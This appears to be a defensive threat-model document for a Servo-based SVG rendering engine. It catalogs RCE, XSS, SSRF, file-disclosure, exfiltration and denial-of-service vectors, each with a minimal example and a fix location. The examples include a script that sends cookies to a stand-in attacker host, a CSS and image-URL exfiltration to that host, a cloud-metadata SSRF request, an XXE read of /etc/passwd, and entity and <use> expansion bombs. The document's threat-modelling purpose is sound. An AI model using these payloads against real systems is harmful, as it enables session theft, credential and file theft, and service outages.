

# SVG Security Threats — `svg_engine`

A catalog of attack vectors against the SVG rendering pipeline, ordered by
severity (most critical first). Each entry describes what the attacker achieves,
gives a minimal example, and says how to fix it — or whether it applies at all.

**How to read this file**

Each case has a number (`section.case`, e.g. `3.1`) and four parts:

- **Issue** — what the attacker does (the technical vector).
- **Impact** — what the attacker gains if it succeeds (the consequence).
- **Example** — a minimal input that triggers it.
- **Fix** — one of two forms:
  - **Not applicable** — the element/feature isn't supported in Servo's SVG at
    all (e.g. `<script>`, event handlers, `<foreignObject>`, `<a>`, SMIL,
    `javascript:` URLs), so there is nothing to exploit today.
  - **Where + Describe the fix** — for anything that *is* supported:
    - **Where** — the earliest stage (numbered 1–6) and the exact
      `crate::module::function` / file to change.
    - **Describe the fix** — the concrete mitigation (DoS entries list
      *suggested starting limits*, not current behavior).

The engine is **not a security boundary** (see the main
[README §4](README.md)); this document is a taxonomy of *what exists*, not a
claim that the engine defends against it.

## Priority overview

| # | Category | Severity | Layer | Servo status |
|---|----------|----------|-------|--------------|
| 1 | Remote Code Execution (RCE) | Critical | `engine` | mitigated by Rust; residual `unsafe`/FFI |
| 2 | Cross-Site Scripting (XSS) | Critical | `deployment` | not applicable (no script execution) |
| 3 | Server-Side Request Forgery (SSRF) | High | `engine` | not covered (`image href` is resolved) |
| 4 | Information Disclosure (file read) | High | `parser`/`engine` | not covered (XXE upstream; `file://` image) |
| 5 | Data Exfiltration | High | `deployment`/`engine` | not covered |
| 6 | Denial of Service (DoS) | Medium | `engine`/`parser` | mostly not covered |
| 7 | Other web threats | Low–Medium | `deployment` | not applicable |

> **What is actually live in Servo today:** RCE is mitigated by Rust and XSS is
> not applicable (the engine never executes scripts). The genuinely relevant
> ones are **SSRF** and **file disclosure** via `image href` URLs, **data
> exfiltration** via those same URLs, and the **DoS** vectors (only `<use>`
> cycles are guarded). The rest matter only if the engine is ever fed untrusted
> or uploaded SVG.

## SVG rendering pipeline & security layers

The SVG engine is a six-stage pipeline; each stage consumes the previous
stage's output and produces the next. Stages are numbered 1–6 in pipeline order.
Stages 1–5 each have a **security layer** (a rectangle) that sits between the
stage and the next one: `yes` forwards the data on, `no` drops it into a warning
box.



- **1. Parse** — `xml5ever`, script thread — turns SVG text into a DOM tree.
- **2. Style** — `stylo`, layout thread — applies CSS and computes each element's final styles.
- **3. Fetch** — `net`, net thread — loads external resources — images, fonts,
  and stylesheets — on demand from style and build.
- **4. Build** — `layout::svg`, layout thread — resolves `<use>`, geometry, and
  paint servers into an SVG render tree.
- **5. Render** — `svg_engine`, layout thread — turns the render tree into
  display-list commands — native WebRender primitives, or CPU-rasterized images.
- **6. Render Service Backend** — `webrender`, render backend thread — draws the
  display-list commands to the screen.
- **Security layers** (rectangles) gate stages 1–5: `yes` forwards the data on,
  `no` blocks it and logs the attack.

---

## 1. Remote Code Execution (RCE) — memory corruption

*Layer: `engine` · Severity: Critical · CWE-787 / CWE-94*

A malicious SVG exploits a memory-safety bug (not overload) in the native
parsing/rasterization surface to execute arbitrary code rather than just crash.
Servo's Rust core eliminates most of this class; the residual `unsafe` code and
C FFI are what remain to defend — across four distinct surfaces:

- **Known real cases:** [CVE-2008-3529](https://ubuntu.com/security/CVE-2010-1403) — libxml2 heap overflow on malformed XML. [CVE-2010-1403](https://ubuntu.com/security/CVE-2010-1403) (WebKit uninitialized-memory read on a malformed `<use>`/processing instruction, CVSS 9.3) relied on WebKit's *remote* `<use href>` resolution — Servo resolves `<use>` only against same-document `#id`s, so that specific vector is not present.

**1.1 — Malformed `<path d>`** *(path parser)*

**Issue:** a malformed `<path d="…">` — malformed command arguments or
huge/overflowing coordinates (`1e309` → `inf`/`NaN`) — triggers a
memory-safety bug in the path parser.

**Impact:** arbitrary code execution in the renderer process — full compromise
of whatever is running the engine.

**Example:**
```svg
<svg>
  <!-- crafted coordinates overflow f64 to inf/NaN, hitting an unchecked
       edge case in the path parser -->
  <path d="M0,0 C1e309,1e309 1e309,1e309 1e309,1e309 A1e309,1e309 0 0,1 1e309,1e309 Z"/>
</svg>
```

- **Fix:**
  - **Where (Stage 4 — Build):** path parser `layout::svg::geometry::parse_path` ([geometry.rs:362](components/layout/svg/geometry.rs#L362)).
  - **Describe the fix:** fuzz the path parser with malformed `d` strings (cargo-fuzz / OSS-Fuzz) and audit any `unsafe` there; treat a panic as a bug to fix, not a crash to swallow.

**1.2 — Malformed shape geometry** *(tessellator + rasterizer)*

**Issue:** degenerate or self-intersecting geometry reaching the tessellator
(`lyon`) or the rasterizer (`vello_cpu`) trips a memory-safety bug.

**Impact:** arbitrary code execution in the renderer process via the
tessellator/rasterizer.

**Example:**
```svg
<svg><polygon points="0,0 1,1 0,0 1,1 0,0 1,1"/></svg>
```

- **Fix:**
  - **Where (Stage 5 — Render):** tessellator `svg_engine::tessellator` ([tessellator.rs](components/svg_engine/src/tessellator.rs)) via `lyon`; rasterizer `svg_engine::renderer` ([renderer/](components/svg_engine/src/renderer/)) via `vello_cpu`.
  - **Describe the fix:** fuzz the tessellator and rasterizer with degenerate geometry and audit their `unsafe` blocks.

**1.3 — Crafted `<text>` → font shaping** *(FFI — HarfBuzz)*

**Issue:** a crafted `<text>` with a malicious font trips a memory-safety bug in
the C font-shaping library (HarfBuzz) across the FFI boundary.

**Impact:** arbitrary code execution across the HarfBuzz FFI boundary.

**Example:**
```svg
<svg><text font-family="malicious-webfont">…crafted glyph sequence…</text></svg>
```

- **Fix:**
  - **Where (Stage 5 — Render):** `fonts` (HarfBuzz FFI) — the text shaper.
  - **Describe the fix:** fuzz font shaping, keep HarfBuzz up to date, and audit the FFI glue.

**1.4 — Embedded `<image>` → decode** *(FFI — `resvg`/`tiny-skia`)*

**Issue:** an `<image>` embedding a crafted raster or SVG image trips a
memory-safety bug in the image decoder.

**Impact:** arbitrary code execution across the image-decoder FFI boundary.

**Example:**
```svg
<svg><image href="data:image/png;base64,…" width="100" height="100"/></svg>
```

- **Fix:**
  - **Where (Stage 3 — Fetch):** `net::image_cache` ([image_cache.rs](components/net/image_cache.rs)) — `resvg`/`tiny-skia` decode.
  - **Describe the fix:** fuzz image decode and audit the FFI/`unsafe` boundary.

## 2. Cross-Site Scripting (XSS) — active content

*Layer: `deployment` · Severity: Critical · CWE-79*

SVG is XML and can carry executable content that runs in the **host page's
origin** when the SVG is rendered inline. The dominant delivery model is
**stored XSS via SVG upload**. Servo's SVG engine executes **no scripts** and
supports none of the active-content elements, so every case below is
**not applicable**.

**2.1 — `<script>` element**

**Issue:** an inline `<script>` executes in the host page's origin.

**Impact:** arbitrary script execution in the host origin — steal cookies and
tokens, hijack the session, deface the page.

**Example:**
```svg
<svg xmlns="http://www.w3.org/2000/svg">
  <script>fetch('https://attacker.com?c='+document.cookie)</script>
</svg>
```
- **Fix:** **Not applicable** — `<script>` is not supported in Servo's SVG; the engine never executes scripts. *(Deployment: sanitizer strips `<script>` on upload; serve with CSP `script-src 'none'`.)*

**2.2 — Event handlers**

**Issue:** inline `onload`/`onmouseover`/`onclick` handlers run in the host origin.

**Impact:** arbitrary script execution in the host origin on user interaction.

**Example:**
```svg
<svg xmlns="http://www.w3.org/2000/svg" onload="alert(1)">
  <rect onmouseover="…" onclick="…"/>
</svg>
```
- **Fix:** **Not applicable** — the engine ignores all `on*` event attributes by design. *(Deployment: sanitizer strips `on*` attributes.)*

**2.3 — `<foreignObject>` — embeds HTML / scripts / iframes**

**Issue:** an embedded HTML body runs scripts or loads iframes inside the SVG.

**Impact:** arbitrary script execution / iframe injection in the host origin.

**Example:**
```svg
<svg xmlns="http://www.w3.org/2000/svg">
  <foreignObject><body></body></foreignObject>
</svg>
```
- **Fix:** **Not applicable** — `<foreignObject>` is not in the supported-element whitelist; it is never rendered. *(Deployment: sanitizer strips it from uploads.)*

**2.4 — `javascript:` URLs**

**Issue:** a `javascript:` href executes when the link is followed.

**Impact:** arbitrary script execution when the link is followed.

**Example:**
```svg
<svg><a href="javascript:alert(1)"><text>click</text></a></svg>
```
- **Fix:** **Not applicable** — the engine does not render `<a>` navigation, so `javascript:`/`data:text/html` hrefs are inert. *(Deployment: sanitizer neutralizes them.)*

**2.5 — SVG animation (SMIL)**

**Issue:** `<animate>`/`<set>`/`<animateTransform>` drive scripted/active behavior.

**Impact:** scripted/active behavior — a stepping stone to further attacks.

**Example:**
```svg
<svg><rect><animate attributeName="fill" from="red" to="blue" dur="1s"/></rect></svg>
```
- **Fix:** **Not applicable** — SMIL is unsupported; the engine never runs animations. *(Deployment: sanitizer strips SMIL elements.)*

**2.6 — Stored XSS — the delivery model** *(cuts across all of the above)*

**Issue:** an unsanitized SVG upload is served back inline, carrying any of the
above payloads into the trusted document.

**Impact:** any of the above payloads persist and run for every visitor of the
trusted page — accounts compromised at scale.

**Example:**
```svg
<svg xmlns="http://www.w3.org/2000/svg"><script>…</script></svg>
```
- **Known real cases:** [Shopware CVE-2026-48015](https://dependabot.ecosyste.ms/advisories/CVE-2026-48015), [Laravel-Mediable CVE-2026-49971](https://www.vulncheck.com/advisories/laravel-mediable-stored-xss-via-svg-file-upload), [DataEase](https://github.com/dataease/dataease/security/advisories/GHSA-wx8m-vf8v-crvr/), Bagisto, SveltyCMS, AMP-for-WP.
- **Fix:** **Not applicable** to the engine — this is a deployment concern: sanitize at upload, serve with `Content-Type: image/svg+xml` + `X-Content-Type-Options: nosniff` + CSP, and render untrusted SVG only via ``/sandboxed `<iframe>`, never inline in the trusted document.

## 3. Server-Side Request Forgery (SSRF)

*Layer: `engine` · Severity: High · CWE-918*

The renderer fetches a URL the attacker controls, reaching internal or
network-only endpoints (cloud metadata, internal services).

**3.1 — Remote `<image>` fetch**

**Issue:** an `<image href>` causes a fetch to an attacker-controlled internal
URL (e.g. cloud metadata).

**Impact:** access to internal-only endpoints — cloud metadata (→ credential
theft), internal services, and port scanning of the private network.

**Example:**
```svg
<svg><image href="http://169.254.169.254/latest/meta-data/" width="100" height="100"/></svg>
```
- **Fix:**
  - **Where (Stage 3 — Fetch, earliest):** `net::http_loader` scheme dispatch ([http_loader.rs:281](components/net/http_loader.rs#L281), non-`http(s)` guard at [http_loader.rs:1193](components/net/http_loader.rs#L1193)) — add the URL allowlist here so blocked schemes never reach the network; SVG initiates the fetch at `layout::svg::builder::build_image_tag` ([builder.rs:699](components/layout/svg/builder.rs#L699)).
  - **Describe the fix:** add a URL allowlist at image resolution — allow only same-origin / `data:` / `blob:`; reject `http(s)://` and `file://` unless the caller explicitly opts in.

**3.2 — External stylesheet / `@import`**

**Issue:** an SVG `<style>` pulls an external stylesheet from an internal URL.

**Impact:** SSRF via the CSS loader — reach internal endpoints from a `<style>`
block.

**Example:**
```svg
<svg><style>@import url("http://169.254.169.254/…");</style></svg>
```
- **Fix:**
  - **Where (Stage 2 — Style, earliest):** Stylo `stylo` crate — external git dependency (`servo/stylo`, patched to `mu-mostafa98/stylo` `svg-engine` branch); stylesheet loader / `@import`/`url()`. Not in `svg_engine` or this repo tree.
  - **Describe the fix:** strip external `@import`/`url()` from SVG `<style>` (sanitize), or route them through the same fetch allowlist.

**3.3 — External font (`@font-face`)**

**Issue:** an SVG `<style>` loads an external font from an internal URL.

**Impact:** SSRF via the font loader — reach internal endpoints from an
`@font-face` `src`.

**Example:**
```svg
<svg><style>@font-face { font-family:x; src:url("http://internal/…"); }</style></svg>
```
- **Fix:**
  - **Where (Stage 2 — Style, earliest):** Stylo `stylo` crate (external git dep) — `@font-face` rule + external `src` fetch. Not in `svg_engine`.
  - **Describe the fix:** block external `@font-face src` fetches via the same allowlist; fall back to system fonts.

## 4. Information Disclosure — file read

*Layer: `parser`/`engine` · Severity: High · CWE-611 (XXE)*

Read local files and leak their contents into the document.

**4.1 — XXE external entities** *(parser-level)*

**Issue:** an external entity reads a local file into the document.

**Impact:** local files (e.g. `/etc/passwd`, secrets) leaked into the rendered
document and, from there, to the attacker.

**Example:**
```xml
<!DOCTYPE svg [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<svg><text>&xxe;</text></svg>
```
- **Fix:**
  - **Where (Stage 1 — Parse, earliest):** XML parser — `xml5ever` via `script::dom::servoparser::xml::Tokenizer` ([xml.rs:42](components/script/dom/servoparser/xml.rs#L42)) — disable external DTD/entity resolution at tokenizer/tree-builder construction.
  - **Describe the fix:** disable external-entity/DTD resolution in the XML parser — verify Servo's parser neither loads external DTDs nor expands external entities.

**4.2 — Local file inclusion via `file://` URL**

**Issue:** an `<image href="file://…">` reads a local file.

**Impact:** local files read and exfiltrated through the image fetch.

**Example:**
```svg
<svg><image href="file:///etc/passwd" width="100" height="100"/></svg>
```
- **Fix:**
  - **Where (Stage 3 — Fetch, earliest):** `net::http_loader` ([http_loader.rs:281](components/net/http_loader.rs#L281)) — reject `file://`/local schemes at the fetch layer (`is_local_scheme`); SVG resolution point is `layout::svg::builder::build_image_tag` ([builder.rs:699](components/layout/svg/builder.rs#L699)).
  - **Describe the fix:** reject the `file://` scheme in image/CSS URL resolution (same allowlist as SSRF).

## 5. Data Exfiltration

*Layer: `deployment`/`engine` · Severity: High · CWE-200*

Leak data out of the host. Two distinct vectors:

**5.1 — CSS injection — attribute selectors + `url()`** *(leaks host-document data)*

**Issue:** CSS attribute selectors + `url()` exfiltrate host-document data one
character at a time (blind CSS exfiltration).

**Impact:** host-document data (session tokens, CSRF values, input contents)
leaked one character at a time to the attacker's server.

**Example:**
```svg
<svg><style>
  input[value^="a"] { background: url(https://attacker.com/?v=a); }
</style></svg>
```
- **Known real cases:** [CVE-2026-40301](https://github.com/advisories/GHSA-93vf-569f-22cq) (SVG `<style>` passes `url()`/`@import` unfiltered), [Snipe-IT CVE-2026-86738](https://vuldb.com/cve/CVE-2026-86738), [PortSwigger blind CSS exfiltration](https://portswigger.net/research/blind-css-exfiltration).
- **Fix:**
  - **Where (Stage 2 — Style, earliest):** Stylo `stylo` + `selectors` crates (external git deps) — cascade / attribute-selector matching for SVG `<style>`. Not in `svg_engine`.
  - **Describe the fix:** sanitize SVG `<style>` — strip external `url()`/`@import` or whitelist declarations; render SVG in an origin-isolated context so its CSS can't touch host-DOM data.

**5.2 — External URL in an attribute** *(sends a known secret)*

**Issue:** an external URL in an attribute sends a known secret to the attacker.

**Impact:** a known secret (session token, user id, document contents) is sent
directly to the attacker's server.

**Example:**
```svg
<svg><image href="https://attacker.com/collect?d=SECRET" width="1" height="1"/></svg>
```
- **Fix:**
  - **Where (Stage 3 — Fetch, earliest):** `net::http_loader` ([http_loader.rs:281](components/net/http_loader.rs#L281)) — same scheme/URL allowlist as SSRF; SVG fetch initiated at `layout::svg::builder::build_image_tag` ([builder.rs:699](components/layout/svg/builder.rs#L699)).
  - **Describe the fix:** same URL allowlist — block external URLs, or don't resolve external references at all.

## 6. Denial of Service (DoS) — resource exhaustion

*Layer: `engine`/`parser` · Severity: Medium · CWE-400 (and CWE-409 for decompression)*

Crash, hang, or OOM the renderer. These steal nothing and run nothing, but they
are the most numerous and the most directly relevant to the engine. The numbers
below are **suggested starting limits** — none are implemented yet.

### Recursion → stack overflow

**6.1 — Deep nesting**

**Issue:** ~100,000 nested `<g>` elements overflow the call stack during the tree walk.

**Impact:** renderer process crashes (stack overflow) — denial of service.

**Example:**
```svg
<svg><g><g><g> <!-- …100,000 nested <g>… --> </g></g></g></svg>
```
- **Fix:**
  - **Where (Stage 1 — Parse, earliest):** `script::dom::servoparser::Sink` — `create_element` ([mod.rs:1831](components/script/dom/servoparser/mod.rs#L1831)) / `create_element_for_token` (:2129): cap tree depth during DOM construction. Defense-in-depth at render: `svg_engine::traversal::render_svg_tree` / `render_node` ([traversal.rs:36](components/svg_engine/src/traversal.rs#L36)).
  - **Describe the fix:** cap element nesting depth (e.g. max 512).

**6.2 — Deep acyclic `<use>` chain**

**Issue:** a ~100,000-link acyclic `<use>` chain overflows the stack during resolution.

**Impact:** renderer process crashes (stack overflow) — denial of service.

**Example:**
```svg
<svg>
  <g id="l0"><rect/></g>
  <g id="l1"><use href="#l0"/></g>
  <g id="l2"><use href="#l1"/></g>
  <!-- …×100,000… -->
  <use href="#l100000"/>
</svg>
```
- **Fix:**
  - **Where (Stage 4 — Build):** `layout::svg::builder::resolve_use_children` ([builder.rs:525](components/layout/svg/builder.rs#L525)).
  - **Describe the fix:** cap `<use>` resolution depth (e.g. max 256), alongside the existing cycle set.

### `<use>` cycles

**6.3 — Direct self-cycle** — `covered` (cycle detection)

**Issue:** a `<use>` referencing itself recurses forever.

**Impact:** infinite recursion → renderer hangs or crashes (denial of service).

**Example:**
```svg
<svg><g id="a"><use href="#a"/></g></svg>
```
- **Fix:**
  - **Where (Stage 4 — Build):** `layout::svg::builder::resolve_use_children` ([builder.rs:525](components/layout/svg/builder.rs#L525)) — the existing `resolving` path-set.
  - **Describe the fix:** already in place — the `resolving` path-set stops the cycle; keep it.

**6.4 — Indirect cycle** — `covered` (cycle detection)

**Issue:** two `<use>` elements reference each other.

**Impact:** infinite recursion → renderer hangs or crashes (denial of service).

**Example:**
```svg
<svg><g id="l1"><use href="#l2"/></g><g id="l2"><use href="#l1"/></g></svg>
```
- **Fix:**
  - **Where (Stage 4 — Build):** `layout::svg::builder::resolve_use_children` ([builder.rs:525](components/layout/svg/builder.rs#L525)) — the existing `resolving` path-set.
  - **Describe the fix:** already in place; keep.

### `<use>` amplification

**6.5 — Billion-laughs fan-out (exponential)**

**Issue:** exponential `<use>` fan-out expands to ~1 billion elements.

**Impact:** memory exhaustion (OOM) — the renderer runs out of memory.

**Example:**
```svg
<svg>
  <g id="l0"><rect/></g>
  <g id="l1"><use href="#l0"/><use href="#l0"/></g>
  <g id="l2"><use href="#l1"/><use href="#l1"/></g>
  <!-- …×30 levels → 2^30 ≈ 1 billion rects… -->
</svg>
```
- **Fix:**
  - **Where (Stage 4 — Build):** `layout::svg::builder::resolve_use_children` ([builder.rs:525](components/layout/svg/builder.rs#L525)).
  - **Describe the fix:** cap the total expanded node count after `<use>` resolution (e.g. max 100,000).

**6.6 — Quadratic blow-up**

**Issue:** 10,000 levels of `<use>`+`<rect>` produce ~50M rects.

**Impact:** memory exhaustion (OOM) — the renderer runs out of memory.

**Example:**
```svg
<svg>
  <g id="l1"><rect/></g>
  <g id="l2"><use href="#l1"/><rect/></g>
  <g id="l3"><use href="#l2"/><rect/></g>
  <!-- …×10,000 levels → ~50M rects… -->
</svg>
```
- **Fix:**
  - **Where (Stage 4 — Build):** `layout::svg::builder::resolve_use_children` ([builder.rs:525](components/layout/svg/builder.rs#L525)).
  - **Describe the fix:** same total expanded-node cap.

**6.7 — Command amplification (big-but-legit subtree)**

**Issue:** a big-but-legit subtree is instanced ~10,000×.

**Impact:** memory exhaustion (OOM) / extreme slowdown — denial of service.

**Example:**
```svg
<svg>
  <symbol id="icon"><rect width="1" height="1"/> <!-- …1000 shapes… --> </symbol>
  <use href="#icon" x="0"/> <use href="#icon" x="1"/> <!-- …×10,000 uses… -->
</svg>
```
- **Fix:**
  - **Where (Stage 4 — Build):** `layout::svg::builder::resolve_use_children` ([builder.rs:525](components/layout/svg/builder.rs#L525)).
  - **Describe the fix:** cap the number of `<use>` instances (e.g. max 10,000) in addition to the node-count cap.

### Geometry & rendering bombs

**6.8 — Huge canvas / `viewBox` → OOM**

**Issue:** a 100000×100000 canvas/viewBox forces a huge surface allocation.

**Impact:** memory exhaustion (OOM) from a huge surface allocation.

**Example:**
```svg
<svg width="100000" height="100000"><rect width="100000" height="100000"/></svg>
```
- **Fix:**
  - **Where (Stage 4 — Build):** `layout::svg::build_svg_render_tree` ([mod.rs:41](components/layout/svg/mod.rs#L41)) — viewport/viewBox setup.
  - **Describe the fix:** keep the `u16` side cap, and add a pixel-area cap (e.g. max 2²⁸ ≈ 268 M px); reject larger viewports up front.

**6.9 — Unclamped blur `stdDeviation`**

**Issue:** an unclamped `stdDeviation` forces a huge blur kernel.

**Impact:** extreme CPU/memory (huge blur kernel) → renderer hangs or OOMs.

**Example:**
```svg
<svg><filter id="b"><feGaussianBlur stdDeviation="1000000"/></filter>
<rect width="100" height="100" filter="url(#b)"/></svg>
```
- **Fix:**
  - **Where (Stage 4 — Build):** `layout::svg::defines::FilterParser` ([defines.rs:332](components/layout/svg/defines.rs#L332)) — `feGaussianBlur` branch at :400-401.
  - **Describe the fix:** clamp `feGaussianBlur` `stdDeviation` (e.g. [0, 1000], or ≤ the filter region size).

**6.10 — Huge path segment count → tessellation blowup**

**Issue:** ~1,000,000 path segments blow up tessellation.

**Impact:** extreme CPU (tessellation blowup) → renderer hangs.

**Example:**
```svg
<svg><path d="M0,0 L1,1 L2,2 L3,3 <!-- …1,000,000 segments… -->"/></svg>
```
- **Fix:**
  - **Where (Stage 4 — Build):** `layout::svg::geometry::parse_path` ([geometry.rs:362](components/layout/svg/geometry.rs#L362)).
  - **Describe the fix:** cap the `d` command/segment count (e.g. max 100,000).

**6.11 — Excessive element count**

**Issue:** ~500,000 elements exhaust memory.

**Impact:** memory exhaustion (OOM) — denial of service.

**Example:**
```svg
<svg> <!-- 500,000 × <rect/> --> </svg>
```
- **Fix:**
  - **Where (Stage 1 — Parse, earliest):** `script::dom::servoparser::Sink` — `create_element` ([mod.rs:1831](components/script/dom/servoparser/mod.rs#L1831)) / `parse_complete_string_chunk` (:679): cap total element count during DOM construction.
  - **Describe the fix:** cap total element count (e.g. max 100,000).

**6.12 — Recursive paint server (pattern)**

**Issue:** a pattern referencing itself recurses forever during paint resolution.

**Impact:** infinite recursion → renderer hangs or crashes (denial of service).

**Example:**
```svg
<svg><pattern id="p" width="10" height="10"><rect width="10" height="10" fill="url(#p)"/></pattern>
<rect width="100" height="100" fill="url(#p)"/></svg>
```
- **Fix:**
  - **Where (Stage 5 — Render):** `svg_engine::visitor::PaintServerFixupVisitor` ([visitor.rs:23](components/svg_engine/src/visitor.rs#L23)) and `svg_engine::renderer::pattern` ([pattern.rs](components/svg_engine/src/renderer/pattern.rs)).
  - **Describe the fix:** cap paint-server reference depth (e.g. max 16 nested `url(#…)` resolutions).

**6.13 — Extreme stroke / dash values**

**Issue:** an extreme `stroke-width`/`stroke-dasharray` forces huge stroking work.

**Impact:** extreme CPU → renderer hangs (denial of service).

**Example:**
```svg
<svg><path d="M0,0 L1000,1000" stroke="black" stroke-width="1000000" stroke-dasharray="1 1000000"/></svg>
```
- **Fix:**
  - **Where (Stage 4 — Build):** `layout::svg::style::apply_stroke_presentation_attrs` ([style.rs:344](components/layout/svg/style.rs#L344)) — `stroke-width` :393, `stroke-dasharray` :422.
  - **Describe the fix:** clamp `stroke-width` (e.g. ≤ 10,000) and bound `stroke-dasharray` length/value range.

### Parser-level DoS

**6.14 — Billion-laughs / XML entity expansion** *(parser-level)*

**Issue:** nested XML entities expand exponentially (10^10 chars).

**Impact:** memory exhaustion (OOM) from exponential entity expansion.

**Example:**
```xml
<!DOCTYPE svg [
  <!ENTITY a "xxxxxxxxxx">
  <!ENTITY b "&a;&a;&a;&a;&a;&a;&a;&a;&a;&a;">
  <!ENTITY c "&b;&b;&b;&b;&b;&b;&b;&b;&b;&b;">
  <!-- …×10 levels → 10^10 chars… -->
]>
<svg>&c;</svg>
```
- **Fix:**
  - **Where (Stage 1 — Parse, earliest):** XML parser — `xml5ever` via `script::dom::servoparser::xml::Tokenizer` ([xml.rs:42](components/script/dom/servoparser/xml.rs#L42)) — enforce entity-expansion limits at tokenizer/tree-builder construction.
  - **Describe the fix:** parser-level entity-expansion limits (libxml2-style caps) — verify Servo's XML parser applies them.

**6.15 — Decompression bomb (SVGZ / gzip)** *(CWE-409)*

**Issue:** a tiny gzip'd SVG expands to an enormous size on decompression.

**Impact:** memory/disk exhaustion (OOM) after decompression.

**Example:** a `.svgz` (gzip-compressed SVG) that expands to a huge document on
decompression. Reference: [CrImage decompression-bomb protection](https://github.com/naqvis/crimage/blob/main/guide/DECOMPRESSION_BOMB_PROTECTION.md) (defaults 1000:1 ratio, 500 MB cap).
- **Fix:** **Not applicable** — Servo has no SVGZ/gzip input path today. If gzip input is ever added, cap decompressed size + ratio (e.g. 1000:1, 500 MB).

## 7. Other web threats

*Layer: `deployment` · Severity: Low–Medium*

**7.1 — Open redirect / phishing** — CWE-601

**Issue:** an `<a href>` links to a phishing page.

**Impact:** phishing — the user is tricked into visiting an attacker page.

**Example:**
```svg
<svg><a href="https://phishing.example"><text>click here</text></a></svg>
```
- **Fix:** **Not applicable** — the engine does not render `<a>` links, so no navigation occurs. *(Deployment: sanitizer removes/neutralizes `<a href>`.)*

**7.2 — MIME / content-type confusion**

**Issue:** serving an SVG with a non-SVG content type (e.g. `text/html`), or
trusting a client-supplied `Content-Type`, causes the active content to execute.
(See [ech0 GHSA-69HX-63PV-F8F4](https://vulnerability.circl.lu/vuln/ghsa-69hx-63pv-f8f4#1).)

**Impact:** the SVG's active content executes as HTML → XSS.
- **Fix:** **Not applicable** — a deployment concern: the engine never serves or sniffs content. *(Serve SVG as `image/svg+xml` with `X-Content-Type-Options: nosniff` and CSP.)*

**7.3 — DOM clobbering**

**Issue:** SVG elements named `id="location"` / `id="cookie"` shadow global JS
variables in a host that embeds the SVG inline.

**Impact:** attacker shadows host global JS variables → arbitrary script
execution / data tampering in the host.

**Example:**
```svg
<svg><a id="location" href="https://attacker.com">…</a></svg>
```
- **Fix:** **Not applicable** — the engine never embeds SVG inline in a host DOM (`<a>` is unsupported). *(Deployment: render untrusted SVG in ``/sandboxed `<iframe>`.)*

**7.4 — Privacy / tracking**

**Issue:** a 1×1 SVG tracking pixel fires a third-party request via `<image href>`.

**Impact:** a third-party request fires → tracking/fingerprinting of the user.

**Example:**
```svg
<svg width="1" height="1"><image href="https://tracker.example/pixel.svg"/></svg>
```
- **Fix:**
  - **Where (Stage 3 — Fetch, earliest):** `net::http_loader` ([http_loader.rs:281](components/net/http_loader.rs#L281)) — same URL allowlist as SSRF; SVG fetch initiated at `layout::svg::builder::build_image_tag` ([builder.rs:699](components/layout/svg/builder.rs#L699)).
  - **Describe the fix:** block external fetches by default (the same URL allowlist), so no third-party request can be triggered.

---

## Status summary

| Threat | Servo posture |
|--------|---------------|
| RCE (memory corruption) | mitigated by Rust; residual `unsafe`/FFI to audit |
| XSS (active content) | not applicable — no script execution; `foreignObject`/`a`/SMIL unsupported |
| SSRF (`image href`, CSS `@import`, fonts) | not covered — caller must block remote URLs |
| Information disclosure (XXE, `file://`) | XXE upstream; `file://` image not covered |
| Data exfiltration (CSS, URL) | CSS upstream; URL vector not covered |
| DoS (recursion/amplification/bombs) | only `<use>` cycles covered |
| Other (redirect, MIME, clobbering, tracking) | not applicable / blocked by the fetch allowlist |
